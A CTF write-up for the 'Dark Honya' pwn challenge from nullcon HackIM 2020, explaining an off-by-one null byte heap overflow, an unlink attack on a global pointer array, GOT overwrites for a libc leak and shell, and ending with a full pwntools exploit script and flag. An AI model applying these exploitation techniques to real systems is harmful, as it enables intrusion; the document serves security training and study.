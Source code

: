 ```yaml
---
title: Dark Honya -- nullcon HackIM 2020
categories: [CTF Writeups]
tags: [nullcon20, pwn]
date: 2020-02-09
seo:
  date_modified: 2020-02-16 19:50:45 +0000
---
```

With [Jorge](https://twitter.com/jorge_cmartins) and [jofra](https://twitter.com/V_jofra)

**Points:** 460 (dynamic)

## TL;DR
1. Null byte overflow on heap chunk
2. Free overflown chunk
3. Overwrite ptr array 
4. Write `printf@plt` on `free@got` to obtain a libc leak
5. Write `system` on `atoi@got` to get a shell


### Binary Mitigations
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

## Reversing
The program provided three functionalities:

#### 1. Buy a book
```c
void buy()
{
  char *chunk; 
  signed int i;

  for ( i = 0; ptr[i]; ++i )
    ;
    
  if ( i <= 15 )
  {
    chunk = malloc(0xF8);
    puts("Name of the book?");
    read_f8_buff(chunk);
    ptr[i] = chunk;
  }
  else
  {
    puts("Next time bring a bag with you!");
  }
}
```
#### 2. Return a book
```c
void put_back()
{
  int idx; 

  puts("Which book do you want to return?");
  idx = read_int();
  if ( (unsigned int)idx > 0xF )
    puts("boy, you cannot return what you dont have!");
  free(ptr[idx]);
  ptr[idx] = 0;
}

```

#### 3. Write on a book
```c
void write()
{
  int idx; 

  idx = read_int();
  if ( (unsigned int)idx <= 0xF )
  {
    puts("Name of the book?");
    read_f8_buff(ptr[idx]);
  }
  else
  {
    puts("Writing in the air now?");
  }
}
```

## Vulnerability

The binary uses `read_f8_buff` when reading data to buffers. This function reads 0xf8 bytes to a buffer and appends a '\x00' character to the end of the buffer. If 0xf8 characters are provided, the '\x00' will be appended out of bounds.

```c
void read_f8_buff(char *buff)
{
  int bytes_read; 

  bytes_read = read(0, buff, 0xF8);
  if ( bytes_read == -1 )
    puts("Err read string");
  buff[bytes_read] = 0; // off by one vulnerability
}
```

[](https://i.imgur.com/43FDHCJ.png)

## Exploitation Plan

### Step 1 - Control global ptr array entries
We can leverage the off-by-one vulnerability in `read_f8_buffer` to force a coalesce with an allocated chunk. This will call the `unlink` macro.

```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            
    FD = P->fd;								      
    BK = P->bk;					
    // we have to satisfy this check
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  
    else {		
        // important part
        FD->bk = BK;							   
        BK->fd = FD;							      
        ...							      
      }									      
}
```
By controlling the `FD` and `BK` pointers, we can write the chunk `BK` and `FD`s address on arbitrary memory, as long as `FD->bk == P` and `BK->fd == P`. So, effectively, we must have a pointer in memory to `P`. 

When we allocate a `chunk` its address is stored on the global `ptr` list.

This address points to the usable area inside the chunk (i.e. not the actual beginning of the chunk). With this in mind we prepare a `fake chunk` at the stored address with modified `size`,`fd` and `bk`pointers and next chunk's `prev_size`. We then free the next chunk to trigger a coalesce which will use the unlink macro.


[](https://i.imgur.com/QM5Q6jt.png)

This will overwrite ptr_array[2] with &ptr_array-8 (fake_chunk->fd). 

### Step 2 - Leak libc

We now control the global `ptr` array, so we can insert arbitrary addresses and use the write functionality to achieve a **write_what_where**. 
We will now:
1. Insert `free@got`'s address on the `ptr` array
2. Use the write functionality to replace the `free@got` with `printf@plt`
3. "Free" a chunk with a format string as it's content which will call `printf` and get us a`libc leak`


### Step 3 - Get shell

Since we have a`libc leak`, the next step is to call `system("/bin/sh")`. To do this we overwrite the `atoi` entry on the got with `system`. This way when the program asks us for the menu option we simply provide the string `/bin/sh`.


## Exploit Script
```python

from pwn import *

def go():
    s = remote("pwn2.ctf.nullcon.net", 5002)
    libc = ELF("./libc-2.23.so")
    ptr = 0x6021b0
    leak_offset = 0x20830
    
    # we're not using the name
    s.send("A"*8)

    # alocate 4 chunks
    for n in range(5-1):
        alloc(s, chr(ord('A')+n)*0x10)
    
    # alocate 5th chunk with format string needed to obtain a leak
    alloc(s, "LEAK:%15$p")

    # .bss entry must point to chunk-0x10, so we will create a fake chunk
    # 0x10 bytes after our allocated chunk, populating the prev_size with the 
    # correct size of our fake chunk
    write_name(s, 2, '\x00'*8 + p64(0xf1) + p64(ptr-0x18) + p64(ptr-0x10) + (0xf8-0x28)*'A' + p64(0xf0))

    # free the third chunk, triggering the unlink 
    free(s, 3)

    # free 0x602018
    # &ptr-0x8 is now written on the third entry of the pointer list
    # we now use it to change the first pointer to point to free@got
    write_name(s, 2, '\x00'*8 + p64(0x602018))


    # overwrite both free and puts to printf
    write_name(s, 0, p64(0x400680) + p64(0x400680))

    # trigger the printf on the fifth chunk and obtain a libc leak
    free(s, 4)

    s.recvuntil("LEAK:")
    libc.address = int(s.recv(14)[2:], 16) - leak_offset

    log.info("libc      @ {}".format(hex(libc.address)))

    # atoi 0x602060
    # replace atoi with system
    write_name(s, 2, '\x00'*8 + p64(0x602060))

    write_name(s, 0, p64(libc.symbols['system']))   

    s.sendline("/bin/sh")
    s.sendline("cat flag")

    s.interactive()

go()

# hackim20{Cause_Im_coming_atcha_like_a_dark_honya_?}
```


